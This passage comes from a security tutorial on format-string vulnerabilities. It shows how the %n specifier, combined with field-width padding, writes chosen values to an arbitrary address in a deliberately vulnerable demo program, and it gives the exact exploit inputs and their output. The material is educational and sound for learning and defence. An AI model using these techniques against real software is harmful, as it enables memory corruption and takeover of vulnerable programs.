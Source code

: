 # *__Writing to Arbitrary Memory Addresses_**

If the _%s_ format parameter can be used to read an arbitrary memory address, you should be able to use the same technique with __%n__ to write to an arbitrary memory address. Now things are getting interesting.

The __test_val__ variable has been printing its address and value in the debug statement of the vulnerable _fmt_vuln.c_ program, just begging to be overwritten. The test variable is located at _0x08049794_, so by using a similar technique, you should be able to write to the variable.

<pre style="color: white;">
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\xd7\xfd\xff\xbf")%08x.%08x.%08x.%s
The right way to print user-controlled input:
????%08x.%08x.%08x.%s
The wrong way to print user-controlled input:
????bffff3d0.b7fe75fc.00000000./usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/
usr/games
[*] test_val @ 0x08049794 = -72 0xffffffb8
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%08x.%08x.%08x.%n
The right way to print user-controlled input:
??%08x.%08x.%08x.%n
The wrong way to print user-controlled input:
??bffff3d0.b7fe75fc.00000000.
[*] test_val @ 0x08049794 = 31 0x0000001f
reader@hacking:~/booksrc $
</pre>

As this shows, the __test_val__ variable can indeed be overwritten using the __%n__ format parameter. The resulting value in the test variable depends on the number of bytes written before the __%n__. This can be controlled to a greater degree by manipulating the _field width_ option.

<pre style="color: white;">
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%x%n
The right way to print user-controlled input:
??%x%x%x%n
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc0
[*] test_val @ 0x08049794 = 21 0x00000015
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%100x%n
The right way to print user-controlled input:
??%x%x%100x%n
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc
0
[*] test_val @ 0x08049794 = 120 0x00000078
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%180x%n
The right way to print user-controlled input:
??%x%x%180x%n
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc
0
[*] test_val @ 0x08049794 = 200 0x000000c8
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%400x%n
The right way to print user-controlled input:
??%x%x%400x%n
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc
0
[*] test_val @ 0x08049794 = 420 0x000001a4
reader@hacking:~/booksrc $
</pre>
